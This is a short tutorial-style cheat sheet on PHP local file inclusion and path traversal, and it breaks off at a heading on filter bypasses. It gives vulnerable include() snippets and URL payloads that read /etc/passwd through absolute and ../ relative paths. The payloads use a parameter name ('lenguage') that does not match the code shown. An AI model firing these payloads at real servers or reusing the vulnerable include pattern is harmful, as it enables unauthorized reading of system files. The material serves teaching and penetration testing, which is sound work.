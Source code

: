 # Basic LFI

## Common readable files on back-end servers

**Windows**

`C:\Windows\boot.ini` 

**Linux**

`/etc/passwd`

## Common example LFI Vulnerability

```
http://SERVER.COM/index.php?lenguage=es.php

http://SERVER.COM/index.php?lenguage=/etc/passwd
```

# Path Traversal

## Absolute Path

**Source Code**

```php
include($_GET['language']);
```

**Payload**

```
http://SERVER.COM/index.php?lenguage=/etc/passwd
```

## Relative Path

**Source Code**

```php
include("./languages/" . $_GET['language']);
```

**Payload (bypass restriction)**

```
http://SERVER.COM/index.php?lenguage=../../../../../etc/passwd
```

# Basic Bypasses

## **Non-Recursive Path Traversal Filters**
